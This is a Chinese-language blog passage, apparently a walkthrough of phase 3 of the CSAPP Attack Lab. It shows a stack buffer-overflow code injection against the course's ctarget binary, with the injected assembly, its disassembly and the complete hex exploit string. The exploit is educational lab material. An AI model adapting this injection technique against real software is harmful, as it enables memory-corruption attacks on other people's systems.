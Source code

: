 > 看源码，传入touch3的是一个地址，该地址应该指向一个值等于cookie的字符串，然后由hexmatch中的strncmp比较即可。按照之前的思路，首先使用getbuf的ret跳转到我们将要写入的机器代码开头，然后在我们的机器代码中首先给%rdi赋上存放cookie值的地址，然后使用ret返回到touch3。
>
> 那首先使用man ascii命令查看cookie值的ascii码（cookie是作者给出的值，在cookie.txt文件里面），可以得到cookie的十六进制35 39 62 39 39 37 66 61 00。然后和第二步一样，执行我们注入的机器代码的地址为rsp            0x5561dc78。最后查看touch3的首地址，很容易查到为4018fa。
>
> 就剩下最后一个问题：我们传入的cookie字符串应该存放在哪里。按照常规思维，我们可以存放在注入的代码后面，即如第二关，在48 c7 ... c3之后加上35 39 62 39 39 37 66 61 00，那这个地址我们也可以很轻松的用rsp+13得到，即压入rdi的为rsp+13。
>
> **但有个问题，test函数调用getbuf，getbuf读入字符串，然后返回到我们的注入代码开始执行，但是当我们getbuf返回的那一刻，getbuf的执行了add    $0x28,%rsp，即getbuf开辟的40个字节的空间不受到保护了，在执行完我们的注入的机器代码返回到touch3函数，touch3调用了hexmatch函数，该函数刚开始被调用就开辟了128字节空间，而*s可以是在这128字节空间里的任意位置操作的，很可能破坏原来的40个字节，导致hexmatch在比较字符串之前就破坏了我们传入的字符串，导致比较失败，因此我们要把字符串放在更安全的test栈帧里面，即5561dca8（可以在test下断点找%rsp），因此：**

![csapp3-4](https://www.hiteva.cn/static/article/csapp/csapp3-4.png)

```
movq   $0x5561dca8,%rdi
pushq  $0x4018fa
ret


```

> 反汇编后为

```

ctarget_3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   

```

> 整体注入为

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

**后面的是用碎片化代码攻击，挺有趣也挺折磨人，毕竟找碎片的话，要不是靠攻略，自己找真的很折磨，作者不是很想写了，有兴趣去搜别人的文章看看呗o(\*￣▽￣\*)ブ**

